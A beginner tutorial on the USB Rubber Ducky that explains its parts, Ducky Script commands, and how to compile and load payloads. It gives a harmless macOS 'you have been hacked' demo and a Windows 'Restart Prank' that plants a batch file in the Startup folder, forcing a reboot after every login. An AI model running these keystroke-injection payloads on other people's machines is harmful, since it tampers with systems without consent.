 ## Three parts of the Rubber Ducky
1. The mini "keyboard" adapter
2. The microSD card
3. The microSD-to-USB adapter

## Steps to build first payloads
### 1. Download the Duck encoder
Duck encoder is program allows us to convert our ducky script into a cross-platform inject.bin file that the keyboard adapter will use to deliver our keystroke payload. Donload the encoder .jar file at https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/duckencoder.jar to convert your ducky script.

### 2. Insert the microSD card into your computer
If you don’t want to run the payload on your own computer, make sure you swap the microSD card out of the keyboard adapter and into the smaller plastic microSD-to-USB adapter that they provide. This will allow it to mount to your system as a regular USB storage device.

### 3. Create a payload using Ducky script
A full list of commands can be found at https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript
The most common command are:
- REM: Allows you to add comments
- STRING: Type the remainder of the line exactly as-is into the target computer
- ENTER/SPACE: Hit the "enter" or "space" keys
- DELAY: Wait for a miliseconds before continuing<br>

An example of payloads:<br>
REM Author: Hartley Brody<br>
REM Description: Testing Mac Payload<br><br>

DEFAULTDELAY 250<br><br>

REM Wait for the system to get all set up<br>
DELAY 750<br><br>

REM Open the "Spotlight Search" and pull up the terminal/cli<br>
GUI SPACE<br>
STRING terminal<br>
ENTER<br><br>

REM Send a command to the machine through the terminal/cli<br>
STRING say 'you have been hacked'<br>
ENTER<br>
DELAY 2000<br><br>

REM Close the terminal window so there's no trace left behind<br>
GUI q<br><br>

Another example of payload: Restart Prank<br>
REM Open the command line. You don't need admin because you are only adding to the Users Startup Directory<br>
ESCAPE<br>
CONTROL ESCAPE<br>
DELAY 400<br>
STRING cmd<br>
ENTER<br>
DELAY 100<br>
REM start making Shutdown.bat <br>
STRING copy con "%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Shutdown.bat"<br>
STRING @echo off<br>
ENTER<br>
STRING shutdown /r /t 30<br>
REM The shutdown command has many good options '/t' adds a Delay, and '/r' restarts<br>
REM '/s' will shut the computer down and '/l' (L) is to just logoff the user more options are available by running 'shutdown /?'<br>
ENTER<br>
CTRL z<br>
STRING exit<br>
ENTER<br>
### 4. Compile your Ducky script into an inject.bin
To do this, we’ll use the Duck Encoder from step #1 to compile our custom Ducky Script from step #3, and also copy it onto our microSD card.<br>

Type<br>
java -jar ~/Downloads/duckencoder.jar  -i ~/rubber-ducky/hello-world.txt -o /Volumes/NO\ NAME/inject.bin <br>
hello-world.txt is the Ducky script we just created.<br>
When this command runs, you should see output like:<br>

Hak5 Duck Encoder 2.6.3<br><br>

Loading File .....    [ OK ]<br>
Loading Keyboard File ..... [ OK ]<br>
Loading Language File ..... [ OK ]<br>
Loading DuckyScript ..... [ OK ]<br>
DuckyScript Complete..... [ OK ]<br>
If so, you’re done! Your ducky script has been compiled and transferred to the microSD card.<br>
### 5. Test it
Slide out the microSD card and insert it back into the keyboard adapter that it came in. Plug that keyboard adapter into your computer.<br>
If you want to re-rerun the payload without removing and re-inserting the keyboard adapter, you can press the round black button that’s just below the microSD slot.
